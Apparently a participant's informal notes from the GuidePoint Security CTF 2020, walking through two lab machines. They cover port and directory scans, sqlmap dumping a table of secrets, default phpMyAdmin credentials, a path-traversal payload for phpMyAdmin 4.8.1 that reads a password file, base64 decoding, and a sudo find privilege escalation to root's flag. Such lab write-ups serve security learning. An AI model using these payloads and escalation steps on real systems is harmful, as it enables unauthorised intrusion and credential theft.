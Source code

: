 # GuidePoint Security CTF 2020

[GuidePoint CTF 2020](https://www.youtube.com/redirect?event=video_description&v=yJF0YPd8lDw&q=https%3A%2F%2Fgo.guidepointsecurity.com%2F2020_11_17_Corp_CaptureTheFlag_Digital_01-Registration-LP.html&redir_token=QUFFLUhqbVVlSTdCOGFwVDF1Z0FTVEU4MGswdWZ5OHNJZ3xBQ3Jtc0ttcjdhR0dld3lkUFJuNHhQQ3lwMEFEYkkycVdfbnlfT0N0ZndzWGFBVGttaExKazJjZm56Z3ktanFGSWdwaExZQ0dya0U4MmFHQ1R6M0pUWlY2alEyVDBTbEg5VG1BOS1uZXdRaGdmZURDNHF3RjB5dw%3D%3D)

## Timeline

Launch: Tuesday, November 17th - 8:00 AM EST
Ends: Monday, November 23rd - 5PM EST

I accidentally did the harder one and didn't get the flag, will try again tomorrow!


# Belle 1
> May Phan November 17, 2020 6pm

## 1 Run nmap

found port80 open

nothing interesting on 10.10.20.3, just one line of html title and header

## Run dibrbuster to look for hidden directory

found phpmyadmin portal > admin,admin didn't work

## run dirbuster to find common file extension


````
dirb http://10.10.20.3/ /usr/share/dirb/wordlists/big.txt -w -X ".asp,.html,.htm,.php,.xml,.jsp"
````

a ha! found http://10.10.20.3/roster.php



## Roster Lookup

Look up Belle?

return 

``
Name: Belle
Role: Princess
"Have your really read every one of these books?"
``

Belle from Beauty and the beast? Rose petal? Books? princess?

Look up Beast

return 

```
"Here's where she meets Prince Charming, but she won't discover that it's him 'til chapter three!"
```
Is there a database? Maybe try running a sql vuln?

## Run sqlmap 

```
dumped to CSV file '/root/.local/share/sqlmap/output/10.10.20.3/dump/castle/Secret.csv'

```

Secret.cvs is large file with a ton of hex characters.. 

staff.csv has some data

``
name,role,secret,quote
Belle,Princess,daxmaUBr2b.6g,Have you really read every one of these books?
Chip Potts,Son of Mrs. Potts,teSSCPf05DkTQ,"Ha ha! His moustache tickles, momma!"
Cogsworth,Pendulum clock,clN9IWrQ81HUw,"Enchanted? Ha-ha-ha-ha! Who said anything about the castle being enchated? Ha-ha-ha.... It was you, wasn't it?"
Gaston,Hunter,asMuXJnRAPDAM,"You are the wildest, most gorgeous thing I've ever seen! Nobody deserves you..."
Lefou,Gaston's lackey,laGnoRYe87qM2,And his name's G-A-S-T... I believe there's another T... It just occurred to me that I'm illiterate and I've never actually had to spell it out before... 
Luminere,maitre d,cadS49Adb3g76,Be our Guest!
Madame Armoire,Opera Singer,waonbbJgTptGU,AHHHHHHHHH!!!!
Maurice,Father,faBotLT53bVnI,Don't be afraid.
Mrs. Potts,Head of Kitchen,te18RJOS5u/4E,"Oh, stop your grousing. It's been a long night for all of us."
Plumette,Maid,fe0DoZHPoIvYY,A girl! I saw a girl in the castle!
The Beast,Prince,be42ZQu3jcOEo,"No, not all of them. Some of them are in Greek."
``

That " secret"  column looks promising, maybe we can look that up in the secret.csv file

I can trim the file to get only jsut secret

``
daxmaUBr2b.6g
teSSCPf05DkTQ
clN9IWrQ81HUw
asMuXJnRAPDAM
laGnoRYe87qM2
cadS49Adb3g76
waonbbJgTptGU
faBotLT53bVnI
te18RJOS5u/4E
fe0DoZHPoIvYY
be42ZQu3jcOEo
``

these can be hidden dir for each of the "staff"
 maybe use dirbuster again on thes secret to find 

``
---- Scanning URL: http://10.10.20.3/ ----
==> DIRECTORY: http://10.10.20.3/daxmaUBr2b.6g/                                                                      
==> DIRECTORY: http://10.10.20.3/teSSCPf05DkTQ/                                                                      
==> DIRECTORY: http://10.10.20.3/clN9IWrQ81HUw/                                                                      
==> DIRECTORY: http://10.10.20.3/asMuXJnRAPDAM/                                                                      
==> DIRECTORY: http://10.10.20.3/laGnoRYe87qM2/                                                                      
==> DIRECTORY: http://10.10.20.3/cadS49Adb3g76/                                                                      
==> DIRECTORY: http://10.10.20.3/waonbbJgTptGU/                                                                      
==> DIRECTORY: http://10.10.20.3/faBotLT53bVnI/                                                                      
==> DIRECTORY: http://10.10.20.3/te18RJOS5u/4E/                                                                      
==> DIRECTORY: http://10.10.20.3/fe0DoZHPoIvYY/                                                                      
==> DIRECTORY: http://10.10.20.3/be42ZQu3jcOEo/ 
``


this one timed out. what does it mean

``
---- Entering directory: http://10.10.20.3/cadS49Adb3g76/ ----                                                                             
(!) FATAL: Too many errors connecting to host
    (Possible cause: OPERATION TIMEOUT)
``





# Jeffrey

> May Phan November 18 2020

view source found first flag: 

StormCTF{Learners:Net:Jeffrey1:6d9e2b41A7a421BE92d7cB23B850FD50}

# Nmap 

`
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 76:14:8f:cf:6a:49:bd:d3:ca:ec:9a:d7:6c:f8:7a:d5 (RSA)
|   256 2d:4f:86:b2:39:5d:45:6f:10:35:46:51:a7:e2:ae:17 (ECDSA)
|_  256 ea:3b:08:57:35:c0:75:af:70:b0:82:e1:82:11:bf:72 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)                                                                                      
|_http-title: Jeffrey
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
`

allports

`
58008/tcp open  unknown
`

# Dirbuster

found /wordpress

when nagivating to 10.10.20.2/wordpress, clicked on liknks and got redirected to http://jeffrey.storm.ctf/. Ping unresponsive

Found phpadmin
logged in with admin:password 
found second flag

StormCTF{Learners:Net:Jeffrey2:faD3c1dB5d6F167c0C7BFd8f24af76Ee} 


another clue: 

Aldus, quit using the admin account. We removed the permissions. We saved your password at /var/www/aldus.txt

# PHP vuln

Let's check metasploit if this version of phpadmin has a vulnerable

phpadmin 4.8.1 does have a Local File vuln. we can climb up the file tree to get the txt file

found this on the exploidb website

Payload:

http://127.0.0.1/phpmyadmin/index.php?target=db_sql.php%253f/../../../../../../windows/wininit.ini

 we can use this to jeffery
`
http://10.10.20.2/phpmyadmin/index.php?target=db_sql.php%253f/../../../../../../var/www/aldus.txt
`
 found password
 Aldus, this is a really insecure way to store your password, so we encoded it so that no one can ever get it without knowing how to decode it!!! Your encoded password is: ZzN0X2hpbV8ydGgzLUdyM2VLCg==

 looks like a base64. google a decoder

 got password

 `
g3t_him_2th3-Gr3eK

 `

Where can I use this

there was another open port 58008

`
http://10.10.20.2:58008/
`
got it! logged in with aldus : g3t_him_2th3-Gr3eK


found the flag!!1

StormCTF{Learners:Net:Jeffrey3:ca2cBDD70aA9029d1bad2Cb527C18529}


last flag

priviledge escalation

`
sudo -l
`

seems like aldus run find, we might just be able to find flag.txt in root
`
User aldus may run the following commands on jeffrey.storm.ctf:
    (ALL) NOPASSWD: /usr/bin/find
`
`
sudo find . -exec cat flag.txt \
`

ah ha found the flag

StormCTF{Learners:Net:Jeffrey4:e4B6f1661bBE654Ba901CbC3Be377E89}

